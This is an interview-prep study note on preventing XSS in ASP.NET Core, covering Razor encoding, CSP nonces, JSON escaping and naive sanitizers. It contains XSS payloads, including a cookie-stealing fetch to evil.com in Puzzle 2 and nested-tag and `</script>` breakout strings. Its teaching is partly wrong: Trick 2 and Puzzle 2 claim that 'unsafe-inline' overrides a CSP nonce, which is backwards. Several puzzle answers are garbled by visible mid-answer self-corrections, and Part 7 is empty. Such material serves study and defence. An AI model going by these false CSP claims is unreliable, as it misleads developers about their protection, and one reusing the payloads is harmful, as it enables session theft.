> **Great Answer:** "My comment depends on what the content actually is. If these are plain text fields — names, addresses, comments — then yes, replace `@Html.Raw()` with `@` and the encoding is automatic. But if these are rich text fields from a WYSIWYG editor where users intentionally submit HTML (bold, links, lists), then the fix isn't to remove `Html.Raw()` — it's to add sanitization before `Html.Raw()`. The user-submitted HTML needs to go through a proper allowlist sanitizer, something like `HtmlSanitizer` from Ganss.Xss, which parses the HTML using an actual HTML parser (AngleSharp under the hood) and strips everything not on the allowlist. The key point I'd make in the review: never build your own sanitizer with `string.Replace` or regex — they're always bypassable. `<scr<script>ipt>` strips the inner `<script>` tag to produce `<script>`. Regex cannot reliably handle HTML parser context. And critically, sanitize at write time — when the user submits the content — not at read time. You pay the performance cost once on save, not on every page render, and the clean content is stored in the database."

---

**Question 5:** "How would you implement CSP for a Razor-based app that uses Stripe.js and Google Analytics?"

**Average Answer:** "I'd add a CSP header with `script-src` that includes the Stripe and Google domains."

**Why That's Insufficient:** Doesn't address the inline script problem (Stripe.js creates inline scripts), doesn't explain the nonce mechanism, doesn't address the migration path if the app currently uses `'unsafe-inline'`.

> **Great Answer:** "The tricky part here is that both Stripe.js and Google Analytics typically require inline `<script>` blocks — Stripe's integration script and the gtag initialization. The answer is a per-request nonce. Middleware generates a CSPRNG nonce for each request and stores it in `HttpContext.Items`. The CSP header includes `script-src 'self' 'nonce-{value}' https://js.stripe.com https://www.googletagmanager.com`. The Razor layout retrieves the nonce and adds it as the `nonce` attribute on every legitimate inline script block. The Stripe CDN and GTM CDM scripts are included via external `<script src>` tags pointing to the whitelisted domains — no inline execution needed for the external files themselves. Any attacker-injected `<script>` tag has no nonce attribute and is blocked by the browser. For the migration path — if the app currently has `'unsafe-inline'` because someone 'fixed' a CSP error quickly — I'd start with `Content-Security-Policy-Report-Only` and a report endpoint that logs to structured logging. Run that for a week, review what violations appear, add the missing nonces or external source domains to the allowlist, then switch from Report-Only to enforcing. Going straight to enforcement on a legacy app without the Report-Only phase usually breaks something."

---

### B. The Trick Questions

---

**Trick 1:** "Is Razor's `@` encoding sufficient to prevent all XSS in a Razor application?"

**The trap:** Most engineers say yes — Razor encodes by default, so it's safe.

**Correct answer:** No. Razor's `@` encodes for the HTML body and attribute context. It does NOT protect JavaScript string contexts (wrong encoder type), `href` attributes with `javascript:` URLs (`:` is not encoded), or anywhere `Html.Raw()` is used. Additionally, Razor encoding without CSP is defeated by browser parser quirks in unusual contexts (e.g., `<base>` tag injection, namespace confusion attacks). Both output encoding AND CSP are required for defence-in-depth.

---

**Trick 2:** "Your team sets `Content-Security-Policy: script-src 'self' 'unsafe-inline' 'nonce-abc123'`. Is the nonce providing any XSS protection?"

**The trap:** Engineers assume nonces always provide protection.

**Correct answer:** No. Once `'unsafe-inline'` is present in `script-src`, ALL inline scripts are allowed — including injected ones. The nonce becomes irrelevant. The CSP spec is explicit: if `'unsafe-inline'` is present alongside `'nonce-{value}'`, the nonce is ignored and `'unsafe-inline'` takes full effect. The correct policy for nonce-based CSP must EXCLUDE `'unsafe-inline'` from `script-src`. HTTP consequence: an attacker's injected `<script>alert(1)</script>` executes despite the nonce being present in the policy.

---

**Trick 3:** "Does `System.Text.Json` protect against XSS in JSON API responses?"

**The trap:** Engineers say "yes, JSON isn't HTML" or "yes, it escapes special characters."

**Correct answer:** Partly, with an important caveat. By default, `System.Text.Json` escapes `<`, `>`, and `&` as `\u003C`, `\u003E`, `\u0026`, which prevents HTML injection if the JSON is embedded in an HTML page. But this protection is removed if you configure `Encoder = JavaScriptEncoder.UnsafeRelaxedJsonEscaping`. Additionally, JSON encoding protects the JSON context but not the downstream rendering context — if a browser app does `element.innerHTML = apiResponse.field`, the field value is inserted into the DOM regardless of JSON encoding. XSS in that scenario is a client-side vulnerability, but the API data contributed to it. HTTP consequence of disabled JSON escaping embedded in HTML: `<script type="application/json">{"bio":"</script><script>alert(1)</script>"}</script>` — the `</script>` breaks out of the JSON block and the injected script executes.

---

**Trick 4:** "You serve the same API endpoint to both mobile apps and web browsers. Should you use `HtmlEncoder.Default` or `JavaScriptEncoder.UnsafeRelaxedJsonEscaping` for the JSON response?"

**The trap:** Engineers see "API" and assume JSON escaping is irrelevant to XSS.

**Correct answer:** Default encoding (`HtmlEncoder.Default` or `System.Text.Json`'s default). The reason is defence-in-depth: you cannot control all consumers of a public API. If a web consumer accesses the API and renders the response in an HTML context (which is the most common pattern for browser-based clients), unescaped `<script>` in a response field creates XSS in that consumer. The performance argument for `UnsafeRelaxedJsonEscaping` is weak — typically <8% overhead. Use default escaping unless you have a verified, performance-tested, machine-to-machine only endpoint where HTML rendering is architecturally impossible.

---

**Trick 5:** "A colleague argues: 'We sanitize all input on the way in, so we don't need to encode on output.' Is this correct?"

**The trap:** Input sanitization and output encoding address different phases; one does not substitute for the other.

**Correct answer:** No — this is a common misconception that creates a false sense of security. Input sanitization removes or escapes known-bad content when data enters the system. Output encoding neutralises whatever is in the data when it leaves for the browser. They defend against different failure modes: input sanitization misses new attack vectors discovered after the rule was written; output encoding is context-aware (the same data requires different encoding in HTML body, JS string, URL, CSS). Furthermore, data often comes from sources you don't sanitize at ingestion — third-party APIs, database imports, migrated legacy data. Output encoding works regardless of where the data came from. The correct architecture is: sanitize input where appropriate (e.g., reject clearly malicious payloads at the API boundary) AND encode all output at render time. The two are independent, complementary defences. HTTP consequence of relying on input sanitization alone: a researcher discovers a new XSS vector (e.g., a CSS `expression()` in IE compatibility mode) that bypasses the input sanitizer — all stored content is now exploitable, but output encoding would have neutralised it.

---

### C. Red Flags to Avoid

1. **"We use `@Html.Raw()` because the content looks safe"** — Safety is not visual. Stored XSS payloads are designed to look like legitimate content. Any `Html.Raw()` without an explicit sanitizer call is a vulnerability waiting to be found.
    
2. **"CSP blocks XSS by itself — we don't need encoding"** — CSP is a browser feature. It can be bypassed on older browsers, via JSONP endpoints on whitelisted domains, or via `'unsafe-inline'`. Output encoding is the primary defence; CSP is the fallback.
    
3. **"We validated the input, so encoding is redundant"** — Input validation and output encoding serve different purposes. Encoding happens at the output context — the same data needs different encoding in different output positions. Shows you think of XSS as an input problem when it's fundamentally an output problem.
    
4. **"I added `'unsafe-inline'` to fix a CSP error"** — This is the most common CSP misconfiguration and voids all XSS protection from CSP. The correct fix is nonces or hashes. Saying this in an interview signals you've cargo-culted a Stack Overflow answer without understanding what it does.
    
5. **"HtmlEncoder works for JavaScript context in `<script>` blocks"** — This shows confusion about encoding contexts. HtmlEncoder encodes `<` as `&lt;` — JavaScript sees that as three characters, not as the left-angle-bracket. For JS strings you need `JavaScriptEncoder`; for objects you need `JsonSerializer.Serialize()`.
    
6. **"Encoding user data in the database is the right approach"** — Encoding should happen at output time for the specific output context, not at storage time. Storing HTML-encoded data in the database means the encoded characters appear in emails, in API responses, in logs — everywhere the data goes, it's double-encoded when rendered in HTML again.
    
7. **"We don't need CSP for an API-only backend with no HTML"** — Correct for pure API backends, but dangerous to say broadly. If the API serves any HTML (error pages, admin UIs, Swagger UI, health check dashboards), those HTML responses need CSP. And many "API-only" systems gradually acquire HTML-rendering endpoints.
    
8. **"Our WAF (Web Application Firewall) handles XSS for us"** — WAFs use pattern matching on known XSS signatures. They're bypassable (character encoding, obfuscation, context-specific variants), they add latency, and they don't understand your application's specific output contexts. They're a supplementary layer, not a replacement for proper encoding and CSP.
    

---

## PART 7 — Decision Framework



---

## PART 8 — Self-Check

### A. Conceptual Questions

1. **Encoding context:** A developer writes `<a href="@Model.ReturnUrl">Back</a>` in a Razor view. `Model.ReturnUrl` is a user-supplied value. Razor's `@` operator encodes this value. Does this protect against `ReturnUrl = "javascript:alert(document.cookie)"`? Why or why not?
    
2. **CSP directive interaction:** A CSP header includes `default-src 'self'` and `script-src 'self' 'unsafe-inline'`. An attacker injects `<script>alert(1)</script>` into a page. Does the CSP block the script? Does having `default-src 'self'` help?
    
3. **What happens to the HTTP request if...** a Razor view renders `@Html.Raw(Model.Comment)` and `Model.Comment` is ``. Describe the full attack chain: what the browser receives, what the browser executes, what the user experiences.
    
4. **Encoder selection:** `System.Text.Json` serializes `{ "name": "<script>" }` with default options. The output is `{"name":"\u003Cscript\u003E"}`. A Razor view renders this JSON inside a `<script type="application/json">` tag using `@Html.Raw(json)`. Is this safe? What would happen without the `\u003C` escaping?
    
5. **CSP nonce design:** Why must the CSP nonce be cryptographically random per request? What attack does this prevent compared to a static nonce like `"abc123"` in the CSP header that never changes?
    
6. **Unicode range configuration:** An application configures `HtmlEncoder.Create(UnicodeRanges.All)`. What is the security trade-off compared to `HtmlEncoder.Default`? Under what circumstances is `UnicodeRanges.All` safe to use?
    
7. **What happens to the HTTP request if...** `UseAuthentication` and `UseAuthorization` run correctly, a user is authenticated and authorized, but the endpoint renders `@Html.Raw(currentUser.DisplayName)` where `DisplayName = "Alice <script>...</script>"`. Which security boundary failed? Which middleware could have prevented the script execution?
    
8. **HtmlSanitizer timing:** You're deciding whether to sanitize rich text at write time (when saved) or read time (when rendered). List two advantages of write-time sanitization and one advantage of read-time sanitization.
    
9. **What happens to the HTTP request if...** the CSP middleware sets the `Content-Security-Policy` header AFTER calling `await next(context)` and the response is a large HTML page that started streaming. What does the client receive? What does the browser enforce?
    
10. **Defence layers:** Explain why encoding alone (without CSP) and CSP alone (without encoding) are both insufficient. What attack does each layer independently fail to prevent?
    

---

### B. Code Puzzles

**Puzzle 1 — What does the browser execute?**

```csharp
// Razor view:
@model UserProfileModel

<div class="profile">
    <h2>@Model.DisplayName</h2>
    <div class="bio">@Html.Raw(Model.Bio)</div>
    <script>
        var userId = "@Model.UserId";
    </script>
</div>

// Model values:
// Model.DisplayName = "<script>alert('display')</script>"
// Model.Bio = "<b>Hello</b> <script>alert('bio')</script>"
// Model.UserId = "123\"; alert('js'); var x=\""
```

For each of the three values, state: (a) what the browser receives, (b) whether a script executes, and (c) why.

<details> <summary>Answer</summary>

**DisplayName:** (a) Browser receives: `&lt;script&gt;alert(&#x27;display&#x27;)&lt;/script&gt;` (b) No script executes. (c) Razor's `@` operator calls `HtmlEncoder.Encode()`. `<` and `>` become `&lt;` and `&gt;`. The browser's HTML parser sees this as text content in the `<h2>`, not as a script element.

**Bio:** (a) Browser receives: `<b>Hello</b> <script>alert('bio')</script>` (b) `alert('bio')` EXECUTES. (c) `@Html.Raw()` bypasses encoding entirely. The raw string is written to the response. The browser's HTML parser finds a `<script>` element and executes its content. The `<b>` tag also renders (making "Hello" bold), which is probably the intended use case — but the `<script>` tag was not sanitized.

**UserId:** (a) Browser receives: `var userId = "123"; alert('js'); var x="";` Wait — what does `@Model.UserId` encode to in a `<script>` block? `HtmlEncoder` encodes `"` as `&quot;` — but in JavaScript, `&quot;` is three characters: `&`, `q`, `u`... actually no. `HtmlEncoder` produces `&#x22;` or `&quot;`. JavaScript sees `&quot;` as a literal string — it's NOT the closing quote in JS.

Actually: `HtmlEncoder` encodes `"` as `&#x22;`. The JS sees: `var userId = "123&#x22;; alert('js'); var x=&#x22;"` — JavaScript engine evaluates `&#x22;` as 5 characters literally in the string...

Actually the more precise answer: `HtmlEncoder` encodes `"` as `&quot;`. In a JavaScript string context `"123&quot;; alert('js'); var x=&quot;"`, the JavaScript engine does NOT unescape HTML entities. It sees the literal characters `&`, `q`, `u`, `o`, `t`, `;`. So the string value would be `123&quot;; alert('js'); var x=&quot;` — the JavaScript alert would NOT execute.

BUT: `\n` and `\r` are NOT encoded by HtmlEncoder. If `UserId` contained a newline character, it could break out of the string literal. And `</script>` would be a problem — HtmlEncoder encodes `/` as `&#x2F;` but `<` and `>` as `&lt;` `&gt;` — the JS engine doesn't understand those.

**The correct answer for the interview:** HtmlEncoder provides ACCIDENTAL protection here because `"` is encoded to `&quot;` which JS doesn't parse as a string delimiter. But this is the wrong encoder and gives a false sense of security. The CORRECT encoder is `JavaScriptEncoder`, which would produce `\u0022` — a Unicode escape that JavaScript DOES understand as a literal `"` character in the string value. The puzzle demonstrates why you must use the right encoder for the output context, not rely on incidental protection from the wrong one.

</details>

---

**Puzzle 2 — Does the CSP block this script?**

```http
HTTP/1.1 200 OK
Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-abc123' 'unsafe-inline'
Content-Type: text/html

<!DOCTYPE html>
<html>
<body>
    <p>Welcome, Alice</p>
    <!-- Attacker has injected this via a stored XSS in the username field: -->
    <script>fetch('https://evil.com?c='+document.cookie)</script>
    <script nonce="abc123">
        // legitimate app script
        initApp();
    </script>
</body>
</html>
```

Does the injected script execute? Does the legitimate app script execute?

<details> <summary>Answer</summary>

**Both scripts execute. The CSP provides no XSS protection here.**

The `script-src` directive contains `'unsafe-inline'`. Per the CSP Level 2 and Level 3 specifications, when `'unsafe-inline'` is present in `script-src` alongside a nonce, the `'unsafe-inline'` takes precedence and all inline scripts are allowed — including the attacker's injected script.

The nonce (`'nonce-abc123'`) is completely ignored when `'unsafe-inline'` is present. The browser's CSP engine sees `'unsafe-inline'` and permits all inline script execution without checking nonces.

**HTTP consequence:**

- Injected script runs: `fetch('https://evil.com?c='+document.cookie)` → exfiltrates session cookie
- Legitimate script also runs: `initApp()` → normal behavior

**The fix:** Remove `'unsafe-inline'` from `script-src`. Keep only `'nonce-abc123'`. The legitimate script has the nonce attribute → executes. The injected script has no nonce → blocked.

This is Gotcha 2 in production form. Engineers add `'unsafe-inline'` to "fix" CSP errors while testing, and then ship it to production, believing the nonce is still protecting them.

</details>

---

**Puzzle 3 — Where is the bug? What is the HTTP response?**

```csharp
// Program.cs
builder.Services.AddControllers()
    .AddJsonOptions(options =>
    {
        options.JsonSerializerOptions.Encoder = JavaScriptEncoder.UnsafeRelaxedJsonEscaping;
    });

app.MapGet("/api/products/{id}", async (int id, IProductRepository repo) =>
{
    var product = await repo.GetByIdAsync(id);
    return Results.Ok(product);
});
```

```
// Product in database:
// { Id: 42, Name: "</script><script>alert(1)</script>", Price: 9.99 }
//
// Consumer app (React SPA):
// fetch('/api/products/42')
//   .then(r => r.json())
//   .then(p => {
//     // App bootstraps server-side rendered product into a JSON island:
//     // <script id="product" type="application/json">
//     //   {serialized product here}
//     // </script>
//   });
```

What does the API return? What happens in the consumer app?

<details> <summary>Answer</summary>

**API returns (UnsafeRelaxedJsonEscaping active):**

```http
HTTP/1.1 200 OK
Content-Type: application/json

{"id":42,"name":"</script><script>alert(1)</script>","price":9.99}
```

The `<`, `/`, and `>` characters are NOT escaped because `UnsafeRelaxedJsonEscaping` is configured. Normal `System.Text.Json` would produce `\u003C/script\u003E\u003Cscript\u003Ealert(1)\u003C/script\u003E`.

**In the consumer app's HTML:**

```html
<script id="product" type="application/json">
{"id":42,"name":"</script><script>alert(1)</script>","price":9.99}
</script>
```

The browser's HTML parser processes the page. It sees `</script>` inside the JSON blob. The HTML parser does NOT respect JSON string context — it looks for `</script>` as a raw byte sequence to close the script element. It finds it after `"name":"` and closes the script block there.

The remaining text `<script>alert(1)</script>` is now outside the `<script type="application/json">` block and is parsed as a new `<script>` element. `alert(1)` executes.

**The fix:** Remove `UnsafeRelaxedJsonEscaping`. With default escaping:

```
{"id":42,"name":"\u003C/script\u003E\u003Cscript\u003Ealert(1)\u003C/script\u003E","price":9.99}
```

The `\u003C` Unicode escapes are interpreted by the JavaScript engine inside the JSON parser, never by the HTML parser. The `</script>` sequence never appears as raw bytes → no breakout → `alert(1)` never executes.

This is Pattern 7 / Gotcha variant: the performance engineer's "optimisation" causes XSS in a downstream consumer.

</details>

---

**Puzzle 4 — What status code / behavior results?**

```csharp
// Middleware registered as:
app.Use(async (context, next) =>
{
    await next(context);  // ← runs AFTER endpoint
    context.Response.Headers["Content-Security-Policy"] =
        "default-src 'self'; script-src 'self' 'nonce-abc'";
});

app.UseRouting();
app.UseEndpoints(endpoints =>
{
    endpoints.MapGet("/page", async context =>
    {
        await context.Response.WriteAsync("<html><body><script nonce='abc'>init()</script></body></html>");
    });
});
```

The client requests `GET /page`. What does the client receive? Is the CSP header present?

<details> <summary>Answer</summary>

**The CSP header is NOT reliably present, and the middleware throws an InvalidOperationException (or silently fails to set the header, depending on the server configuration).**

`context.Response.WriteAsync()` starts writing the response body. After body bytes are written, `context.Response.HasStarted` is `true`. HTTP requires that all headers are sent before the response body — they're part of the HTTP framing. Once `WriteAsync` is called, the response headers are either already transmitted (in full HTTP/1.1 without buffering) or about to be.

When the middleware resumes after `await next(context)` and tries to set `context.Response.Headers["Content-Security-Policy"]`, the framework throws `InvalidOperationException: Headers are read-only, response has already started.`

**What the client receives:**

- The HTML response body: `<html><body><script nonce='abc'>init()</script></body></html>`
- The CSP header: **absent**
- The browser sees no CSP → no policy enforcement → the nonce in the `<script>` tag provides no security

**The fix:** Set the header BEFORE `await next(context)`:

```csharp
app.Use(async (context, next) =>
{
    context.Response.Headers["Content-Security-Policy"] =
        "default-src 'self'; script-src 'self' 'nonce-abc'";
    await next(context);  // ← now the header is set before the body starts
});
```

This is Gotcha 4 from a different angle — and a variant of the general rule about response headers in middleware.

</details>

---

**Puzzle 5 — The most common misunderstanding: Does this sanitize correctly?**

```csharp
// "Sanitizer" written by a well-intentioned developer:
public static string SanitizeHtml(string input)
{
    return input
        .Replace("<script>", "", StringComparison.OrdinalIgnoreCase)
        .Replace("</script>", "", StringComparison.OrdinalIgnoreCase)
        .Replace("javascript:", "", StringComparison.OrdinalIgnoreCase)
        .Replace("onerror=", "", StringComparison.OrdinalIgnoreCase)
        .Replace("onload=", "", StringComparison.OrdinalIgnoreCase);
}
```

An attacker submits: `<scr<script>ipt>alert(document.cookie)</scr</script>ipt>`

What does `SanitizeHtml` return? Does the returned value cause XSS when rendered with `@Html.Raw()`?

<details> <summary>Answer</summary>

**Step-by-step execution of `SanitizeHtml`:**

Input: `<scr<script>ipt>alert(document.cookie)</scr</script>ipt>`

1. `.Replace("<script>", "")` — finds `<script>` inside the outer string: `<scr<script>ipt>` → removes it → `<scritp>alert(document.cookie)</scr</script>ipt>`
    
    Wait, let me be more careful: `<scr<script>ipt>` — the Replace finds `<script>` at position 4 and removes it, leaving: `<scritp>alert(document.cookie)</scr</script>ipt>`
    
    Actually: `<scr` + `<script>` + `ipt>` — removing `<script>` gives: `<scr` + `ipt>` = `<scritp>` — wait, `<scritp>` not `<script>`.
    
    More carefully: Original = `<scr<script>ipt>`. Removing `<script>`: `<scr` + `` + `ipt>` = `<scritp>`. Hmm, `<scritp>` is not a valid HTML tag. BUT:
    
    Original = `<scr<script>ipt>alert(document.cookie)</scr</script>ipt>` After removing `<script>`: `<scritp>alert(document.cookie)</scr</script>ipt>` → wait, `scr` + `` + `ipt>` = `scritp>`
    
    Actually: `s`, `c`, `r` then removed `<script>` then `i`, `p`, `t`, `>` — so `scr` + `ipt>` is `script>` preceded by `<` = `<script>`.
    
    **The correct answer: removing `<script>` from `<scr<script>ipt>` yields `<script>`.**
    
    This is the classic nested-tag bypass: the outer `<scr...ipt>` has `<script>` embedded in it. After stripping `<script>`, the two halves reconnect to form a new `<script>` tag.
    
2. After first Replace: `<script>alert(document.cookie)</scr</script>ipt>`
    
3. `.Replace("<script>", "")` again? No — `Replace` runs once, not recursively.
    
4. `.Replace("</script>", "")`: removes `</script>` from `</scr</script>ipt>` → `</scritp>` → actually same pattern: `</scr` + `` + `ipt>` = `</script>`
    

Final output: `<script>alert(document.cookie)</script>`

**The sanitizer reconstructed a valid `<script>` tag from the attacker's nested input.**

When rendered with `@Html.Raw()`:

```html
<div class="bio"><script>alert(document.cookie)</script></div>
```

The browser executes `alert(document.cookie)`. **XSS succeeds.**

**The lesson:** String-replacement "sanitizers" are ALWAYS bypassable. HTML is not a regular language — it cannot be safely sanitized with simple string operations or regular expressions. The browser's HTML parser is the authority on what constitutes a tag, and it handles malformed HTML in ways that no regex or Replace chain can anticipate. Use `HtmlSanitizer` (Ganss.Xss), which uses AngleSharp — a proper HTML5 parser — to parse the input DOM and apply an allowlist before re-serializing.

</details>

---

## PART 9 — Connections & Resources

### A. Related Topics Table

|Topic|Why It Connects|
|---|---|
|[[4.173 — Input Sanitization: Preventing XSS at the Model Binding Layer]]|Input sanitization is the INPUT-side XSS defence; output encoding (this topic) is the OUTPUT-side defence. Both are required. 4.173 covers rejecting/stripping malicious input at model binding; 4.214 covers encoding at render time regardless of what passed through binding|
|[[4.213 — Security Headers Middleware: X-Frame-Options, X-Content-Type, CSP]]|4.213 covers the infrastructure for setting security headers via middleware; 4.214 covers designing the CSP policy content itself (directive semantics, nonce pattern, report-uri). 4.213 is the delivery mechanism; 4.214 is the policy design|
|[[4.218 — OWASP Top 10 Applied to ASP.NET Core APIs]]|XSS is OWASP A03:2021 Injection; understanding encoding and CSP is prerequisite to discussing the broader OWASP security posture in interviews|
|[[4.210 — CSRF / Antiforgery: IAntiforgery and ValidateAntiforgeryToken]]|XSS can steal the antiforgery token from the DOM or cookie, defeating CSRF protection. CSP's `script-src` restriction limits script execution that could read the token. The two defences are complementary|
|[[4.104 — Razor Pages: PageModel, Handlers, and When to Use vs MVC]]|Razor's `@` operator is the primary encoding surface for server-rendered apps. Understanding how Razor compiles `.cshtml` to C# and how the `WriteTo` method calls `HtmlEncoder` explains WHY `@` encodes and `@Html.Raw()` doesn't|
|[[4.125 — HttpResponse: Writing Status, Headers, Cookies, and Streaming Body]]|The CSP header is a response header. Understanding `HttpResponse.Headers`, `HasStarted`, and the constraint that headers must be set before the body starts writing is prerequisite to implementing the CSP middleware correctly|
|[[4.268 — System.Text.Json in ASP.NET Core: Global Options and Defaults]]|`System.Text.Json`'s default HTML escaping (`\u003C` for `<`) is a first-layer XSS defence for JSON responses. Understanding `UnsafeRelaxedJsonEscaping` and why it's dangerous in HTML-rendering contexts requires understanding the serializer's default options|
|[[4.107 — Output Formatters: JSON, XML, and Custom Formatter Registration]]|Output formatters control how action result types are serialized to the response body. A custom output formatter that disables HTML escaping in JSON is a hidden XSS vector; understanding the formatter pipeline helps identify where encoding decisions are made|
|[[4.215 — IDOR Prevention: Resource Ownership Verification in Auth Handlers]]|After understanding XSS (client-side injection), the next security boundary is IDOR (accessing other users' data). Both are OWASP top concerns and often appear together in security review discussions|

### B. Books

|Book|Chapters|Why These Chapters|
|---|---|---|
|_ASP.NET Core in Action, 3rd ed._ — Andrew Lock|Ch. 28 (Security: XSS, CSRF, and CORS)|The chapter covers HtmlEncoder, the Razor encoding pipeline, and CSP configuration in the context of the ASP.NET Core middleware system. The most targeted chapter on this exact topic in .NET-specific literature|
|_The Web Application Hacker's Handbook, 2nd ed._ — Stuttard & Pinto|Ch. 12 (Attacking Users: Cross-Site Scripting)|The definitive technical reference for XSS attack vectors, bypass techniques, and context-sensitive encoding requirements. Understanding how attackers think about XSS is prerequisite to designing correct defences|
|_Writing Secure Code for Windows, 2nd ed._ — Howard & LeBlanc|Ch. 13 (Preventing Cross-Site Scripting)|Covers the fundamental principle of "encode all output in the context it's used" — the context-sensitivity rule that separates correct XSS defence from incomplete implementations|

### C. Essential Articles & Docs

1. **Microsoft Docs — Prevent Cross-Site Scripting (XSS) in ASP.NET Core** `https://learn.microsoft.com/en-us/aspnet/core/security/cross-site-scripting` The canonical ASP.NET Core reference. Covers HtmlEncoder, JavaScriptEncoder, UrlEncoder, UnicodeRanges configuration, and the Razor encoding pipeline. Required reading.
    
2. **Microsoft Docs — Content Security Policy in ASP.NET Core Blazor** `https://learn.microsoft.com/en-us/aspnet/core/blazor/security/content-security-policy` CSP in the context of Blazor (which has different inline script requirements). Useful for understanding nonce-based CSP and the `upgrade-insecure-requests` directive in production configurations.
    
3. **OWASP XSS Prevention Cheat Sheet** `https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html` Context-specific encoding rules from the security community. The "Output Encoding Rules Summary" table maps output contexts to required encoders — directly applicable to ASP.NET Core's encoder selection decision.
    
4. **Content Security Policy Level 3 — W3C Specification** `https://www.w3.org/TR/CSP3/` The specification for CSP directive semantics including the `'unsafe-inline'` + nonce interaction, `'strict-dynamic'`, and the `report-uri` / `report-to` distinction. Read §8.2 for the nonce algorithm and §6.7 for `'unsafe-inline'` behaviour.
    
5. **Andrew Lock — Adding CSP to an ASP.NET Core Application** `https://andrewlock.net/adding-a-content-security-policy-to-an-asp-net-core-application/` Practical implementation guide for CSP middleware in ASP.NET Core with the nonce pattern, Report-Only migration approach, and `NetEscapades.AspNetCore.SecurityHeaders` library recommendation.
    
6. **dotnet/aspnetcore GitHub — System.Text.Encodings.Web Source** `https://github.com/dotnet/aspnetcore/tree/main/src/Http/WebUtilities/src` Source for `HtmlEncoder`, `JavaScriptEncoder`, and `UrlEncoder`. Reading `HtmlEncoder.cs` clarifies exactly which characters are encoded by default and why the conservative safe-by-default approach encodes all non-ASCII.
    

---

> [!NOTE] **Template Meta-Note — What Each Part Is For**
> 
> |Part|Purpose|
> |---|---|
> |**Part 0 — Navigation**|Positions the topic in the full ASP.NET Core domain hierarchy; states prerequisites and what this unlocks; anchors the production relevance in one sentence|
> |**Part 1 — Core Mental Model**|One-sentence fundamental rule (defend in interview); physical analogy mapped to HTTP pipeline; full taxonomy Mermaid diagram|
> |**Part 2 — Deep Mechanics**|Runtime internals — pipeline position, HTTP wire format, framework source behavior, failure paths, runtime costs, edge cases that bite teams at scale|
> |**Part 3 — Production Code**|5–7 patterns from real enterprise domains; anti-pattern before correct version; HTTP wire effect after every handler; named domain context|
> |**Part 4 — Gotchas**|5 production bugs experienced engineers still make; wrong code → HTTP consequence → correct code → HTTP consequence → pipeline explanation|
> |**Part 5 — Performance**|Pipeline characteristics table (8+ rows); BenchmarkDotNet class with 3+ variants and expected output; when to care vs when to ignore|
> |**Part 6 — Interview Arsenal**|3–5 questions with average/great answers; 3–5 trick questions with traps; 5–8 red flags to avoid in interviews|
> |**Part 7 — Decision Framework**|Single Mermaid flowchart answering "when do I use X vs Y"; 6+ decision nodes; ends at concrete named choices; usable as live interview cheat sheet|
> |**Part 8 — Self-Check**|8–10 conceptual questions requiring genuine understanding; 4–5 code puzzles with non-obvious answers in collapsed details blocks|
> |**Part 9 — Connections**|Wiki-linked related topics table with specific dependency sentences; books with chapter-level justification; 4–6 essential official/community articles|